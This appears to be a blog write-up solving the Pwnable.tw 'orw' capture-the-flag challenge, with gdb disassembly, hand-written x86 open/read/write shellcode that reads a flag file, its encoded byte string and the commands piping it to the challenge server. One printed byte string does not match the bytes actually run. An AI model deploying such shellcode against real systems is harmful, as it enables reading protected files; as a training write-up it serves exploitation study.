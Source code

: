 ```yaml
---
layout: single_c
title:  "Pwnable.tw Level 2 - Orw"
date:   2019-08-16 1:00:16 +0530
categories: Pwnable.tw
tags: Binary-Exploitation
classes: wide
--- 
```

### [Pwnable.tw Level 2 - Orw](https://pwnable.tw/challenge/#2)  

## Challenge
```
Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.

nc chall.pwnable.tw 10001
```
## Static Analysis
Lets check the file properties using `file` and `checksec`
```bash
user@ctf:~/Downloads$ file orw
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2,  
for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped

user@ctf:~/Downloads$ ./checksec.sh --file orw
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   orw
```
Let decompile using `gdb`
```bash
gdb-peda$ info functions 
All defined functions:

Non-debugging symbols:
0x08048330  _init
0x08048370  read@plt
0x08048380  printf@plt
0x08048390  __stack_chk_fail@plt
0x080483a0  __libc_start_main@plt
0x080483b0  prctl@plt
0x080483d0  _start
0x08048400  __x86.get_pc_thunk.bx
0x08048410  deregister_tm_clones
0x08048440  register_tm_clones
0x08048480  __do_global_dtors_aux
0x080484a0  frame_dummy
0x080484cb  orw_seccomp
0x08048548  main
0x080485a0  __libc_csu_init
0x08048600  __libc_csu_fini
0x08048604  _fini
```
Lets look at main function
```bash
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x08048548 <+0>:	lea    ecx,[esp+0x4]
   0x0804854c <+4>:	and    esp,0xfffffff0
   0x0804854f <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048552 <+10>:	push   ebp
   0x08048553 <+11>:	mov    ebp,esp
   0x08048555 <+13>:	push   ecx
   0x08048556 <+14>:	sub    esp,0x4
   0x08048559 <+17>:	call   0x80484cb <orw_seccomp>
   0x0804855e <+22>:	sub    esp,0xc
   0x08048561 <+25>:	push   0x80486a0
   0x08048566 <+30>:	call   0x8048380 <printf@plt>
   0x0804856b <+35>:	add    esp,0x10
   0x0804856e <+38>:	sub    esp,0x4
   0x08048571 <+41>:	push   0xc8
   0x08048576 <+46>:	push   0x804a060
   0x0804857b <+51>:	push   0x0
   0x0804857d <+53>:	call   0x8048370 <read@plt>
   0x08048582 <+58>:	add    esp,0x10
   0x08048585 <+61>:	mov    eax,0x804a060
   0x0804858a <+66>:	call   eax
   0x0804858c <+68>:	mov    eax,0x0
   0x08048591 <+73>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048594 <+76>:	leave  
   0x08048595 <+77>:	lea    esp,[ecx-0x4]
   0x08048598 <+80>:	ret    
End of assembler dump.
```

At position `0x08048576` the value `0x804a060` is pushed into the `stack` and then value read from the user is stored at this location and then it is called.

lets set a break point and check 
```bash
gdb-peda$ break *0x0804858a
Breakpoint 1, 0x0804858a in main ()
gdb-peda$ x/2i $eip
=> 0x804858a <main+66>:	call   eax
   0x804858c <main+68>:	mov    eax,0x0
gdb-peda$ print $eax
$1 = 0x804a060
gdb-peda$ x/s $eax
0x804a060 <shellcode>:	"AAAABBBB\n" 
```
So it executes any shellcode we input. So we can simply write any shell code.
Its seems to be too easy and I don't see any limits to the length of shell code either  
My first thought was to pop a shell. But syscalls seems to be limited to `open` `read` and `write`
After trying various unnecessarily complicated shellcodes I got a simple idea  
We can just `open` the flag file then `read` from it and then `write` its contents to standard output  

I used this website for writing the shell code https://defuse.ca/online-x86-assembler.htm

Shell code
```bash
mov eax,5
push 0
push 0x67616c66
push 0x2f2f2f77
push 0x726f2f65
push 0x6d6f682f
mov ebx,esp
xor ecx,ecx
xor edx,edx
int 0x80;; fd = open("/home/orw/flag", 0_RDONLY, 0)

push eax
pop ebx
mov eax,3
mov ecx,0x0804a060
sub ecx,40
mov edx,40
int 0x80;; read(fd, obj.shellcode-40, 40)

mov eax,4
mov ebx,1
mov ecx,0x0804a060
sub ecx,40
mov edx,40
int 0x80;; write(stdout, obj.shellcode-40, 40)


String Literal:

"\xB8\x05\x00\x00\x00\x6A\x00\x68\x66\x6C\x61\x67\x68\x77\x2F\x2F\x2F\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x89\xE3  
\x31\xC9\x31\xD2\xCD\x80\x50\x5B\xB8\x03\x00\x00\x00\xB9\x60\xA0\x04\x08\x81\xC1\xA0\x00\x00\x00\xBA\x28\x00\x00\x00  
\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xB9\x60\xA0\x04\x08\x81\xC1\xA0\x00\x00\x00\xBA\x28\x00\x00\x00\xCD\x80"  

```
The shellcode is the simplest one I could think of. Its not the most efficient or shortest method but it will work    
The shellcode first `opens` the file `/home/orw/flag`  
Then it `reads` from the file using the file `descriptor` returned form `open` to a `40bytes` buffer above shell code  
Then we `write` the output to standard output

Lets try it on local system first and then on the server
```bash
user@ctf:~/Downloads$ python -c 'print "\xB8\x05\x00\x00\x00\x6A\x00\x68\x66\x6C\x61\x67\x68\x77\x2F\x2F\x2F\x68  
\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x89\xE3\x31\xC9\x31\xD2\xCD\x80\x50\x5B\xB8\x03\x00\x00\x00\xB9\x60\xA0\x04  
\x08\x83\xE9\x28\xBA\x28\x00\x00\x00\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xB9\x60\xA0\x04\x08\x83\xE9  
\x28\xBA\x28\x00\x00\x00\xCD\x80"' | ./orw
Give my your shellcode:hey there you in flag
Segmentation fault (core dumped)
```
And there we have it. Let's run it on the server
```bash
user@ctf:~/Downloads$ python -c 'print "\xB8\x05\x00\x00\x00\x6A\x00\x68\x66\x6C\x61\x67\x68\x77\x2F\x2F\x2F\x68  
\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x89\xE3\x31\xC9\x31\xD2\xCD\x80\x50\x5B\xB8\x03\x00\x00\x00\xB9\x60\xA0\x04  
\x08\x83\xE9\x28\xBA\x28\x00\x00\x00\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xB9\x60\xA0\x04\x08\x83\xE9  
\x28\xBA\x28\x00\x00\x00\xCD\x80"' | nc chall.pwnable.tw 10001
Give my your shellcode:FLAG{xxxxxxxxxxx}
```
### Solved!

